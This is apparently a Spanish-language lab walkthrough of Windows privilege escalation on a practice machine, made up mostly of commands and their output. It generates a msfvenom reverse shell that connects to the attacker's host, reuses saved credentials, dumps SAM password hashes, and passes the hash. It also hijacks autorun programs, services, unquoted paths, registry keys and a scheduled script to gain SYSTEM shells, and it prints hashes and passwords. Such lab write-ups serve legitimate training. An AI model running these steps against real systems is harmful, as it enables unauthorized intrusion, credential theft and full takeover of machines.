



## Conexion remota

```
rdesktop -u user -p password321 
xfreerdp /u:user /p:password321 /v:10.10.108.120 /cert:ignore
```



----

### Generar shell inverso

```
msfvenom -p windows/shell_reverse_tcp lhost=10.9.102.237 lport=4444 -f exe > reverse.exe
```

## Contraseña - Creditos guardados

Enumerar las credenciales guardadas

```
cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence
    
    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```

Obteniendo shell como admin

```
runas /savecred /user:admin C:\Windows\System32\cmd.exe

whoami
win-qba94kb3iof\user

runas /savecred /user:admin C:\PrivEsc\reverse.exe
──────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.108.120] 49774
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```

Desde la máquina Windows



----

## Administrador de cuentas de seguridad SAM

```
reg save HLKM\SYSTEM system.bak
reg save HLKM\SAM sam.bak
```

Dumping

```
❯ secretsdump.py -system SYSTEM -sam SAM local
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xf4fb8f729017b7d8a540e99f6dabea79
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```

----

## Apliacciones de GUI inseguras

```
tasklist /V | findstr mspaint.exe
mspaint.exe                   4872 RDP-Tcp#1                  2     29,088 K Running         WIN-QBA94KB3IOF\admin                                   0:00:00 Untitled - Paint
```



## Pass The Hash

Tenemos `pwn3d`

```
❯ crackmapexec smb 10.10.108.120 -u admin -p password123
SMB         10.10.108.120   445    WIN-QBA94KB3IOF  [*] Windows Server 2019 Standard Evaluation 17763 (name:WIN-QBA94KB3IOF) (domain:WIN-QBA94KB3IOF) (signing:False) (SMBv1:True)
SMB         10.10.108.120   445    WIN-QBA94KB3IOF  [+] WIN-QBA94KB3IOF\admin:password123 (Pwn3d!)
```

```
❯ pth-winexe -U "admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da" //10.10.108.120 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```

Extra:

```
❯ pth-winexe -U "admin%password123" //10.10.108.120 cmd.exe
psexec.py WORKGROUP/admin123:brokenB19@10.10.91.221 cmd.exe
```

----

## Registro Ejecuciones automaticas

```
> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Viendo los permisos

```
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

Permisos con `icacls`

```
icacls "C:\Program Files\Autorun Program\program.exe"
icacls "C:\Program Files\Autorun Program\program.exe"
C:\Program Files\Autorun Program\program.exe Everyone:(F)
                                             NT AUTHORITY\SYSTEM:(F)
                                             BUILTIN\Administrators:(F)
                                             WIN-QBA94KB3IOF\Administrator:(F)
                                             NT AUTHORITY\SYSTEM:(I)(F)
                                             BUILTIN\Administrators:(I)(F)
                                             BUILTIN\Users:(I)(RX)
                                             APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                             APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Reescribiendo el ejecutable `AutoRun`

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
        1 file(s) copied.
```

Inicio sesion como `admin`

```
rdesktop -u admin -p password123 10.10.125.244
```

> Inicié un oyente en Kali y luego reinicié la maquina virtual Windows, inciando sesion como `admin:password123`.  
> Tener en cuenta que en un compromiso del mundo real, ¡Tedria que esperar a que un administrador inicie sesión por sí mismo!

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.125.244] 49758
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin
```

Extra:  
Programas que se ejecutan en el arranque del sistema

```
wmic startup get caption,command 2>null &
Caption            Command                                       
RunWallpaperSetup  RunWallpaperSetup.cmd                         
SecurityHealth     %windir%\system32\SecurityHealthSystray.exe   
My Program         "C:\Program Files\Autorun Program\program.exe"
```
----

## Exploit de servicio Permisos de servicio inseguro

Uso de accesschk,exe para verificar los permisos de cuenta de 'usuario' en el servicio 'daclsvc'

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

SERVICE_CHANGE_CONFIG: Permisos para cambiar la configuración del servicio

Consultar el servicio y tener en cuenta que se ejecuta con privilegios de SYSTEM 'SERVICE_START_NAME'

```
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Modifiqué la configuración del servicio y establecí BINARY_PATH_NAME (binpath) en el ejecutable reverse.exe que creé.

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
[SC] ChangeServiceConfig SUCCESS
```

Inicio el servicio

```
net start daclsvc
```

Obtengo una shell como `System`

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.125.244] 49822
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

----

## Unquote Service Path

```
sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Comprobando permisos de escritura en los directorios

```
accesschk.exe -accepteula -uwqd "C:\Program Files\Unquoted Path Service\Common Files"
C:\Program Files\Unquoted Path Service\Common Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

accesschk.exe -accepteula -uwqd "C:\Program Files\Unquoted Path Service"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

accesschk.exe -accepteula -uwqd "C:\Program Files"
C:\Program Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

Copié el ejecutable reverse.exe y cambie el nombre a `Common.exe`

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.
```

Inicio un oyente en kali y luego inicé el servicio para generar unshell con privilegios de `System`

```
net start unquotedsvc

──────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.125.244] 49863
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

-----

## Explotaciones de servicio Permisos de registros débiles

Consulte el servicio `regsvc` y observa que se ejecuta con privilegios de SYSTEM (SERVICE_START_NAME)

```
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Tener en cuenta que el grupo "NT AUTHOrITYY\INTeRACTIVE" (esencialmente todos los usurios conectados) pueden escribir en la entrada de registro para el servicio regsvc.

```
accesschk.exe -accepteula -uvwqk "HKLM\System\CurrentControlSet\Services\regsvc"
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
```

Sobreescriba la clave de registro con imagePath para que apunt al ejecutable reverse.exe que creó:

```
reg add HKLM\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
The operation completed successfully.
```

Reinicie el servicio para geberar un shell inverso que se ejecute con privilegios de SISTEMA

```
net start regsvc

──────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.125.244] 49932
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Tareas programadas

Ver el script C:\DevTools\CleanUp.ps1

```
type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
```
El script parece ejecutarse como SYSTEM cada minuto. Con accesschk.exe, tenga en cuenta que tiene la capacidad de escribir en este archivo

```
accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
RW C:\DevTools\CleanUp.ps1
        FILE_ADD_FILE
        FILE_ADD_SUBDIRECTORY
        FILE_APPEND_DATA
        FILE_EXECUTE
        FILE_LIST_DIRECTORY
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_TRAVERSE
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        DELETE
        SYNCHRONIZE
        READ_CONTROL
```

```
icacls C:\DevTools\CleanUp.ps1
C:\DevTools\CleanUp.ps1 BUILTIN\Users:(M)
                        NT AUTHORITY\SYSTEM:(F)
                        BUILTIN\Administrators:(F)
                        WIN-QBA94KB3IOF\Administrator:(F)
                        NT AUTHORITY\SYSTEM:(I)(F)
                        BUILTIN\Administrators:(I)(F)
                        BUILTIN\Users:(I)(RX)
```

Inicie un oyente en kali y luego agregue una linea a `C:\DevTools\CleanUp.ps1` que ejecuta el ejecutable reverse.exe que creó

```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.125.244] 49971
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

----


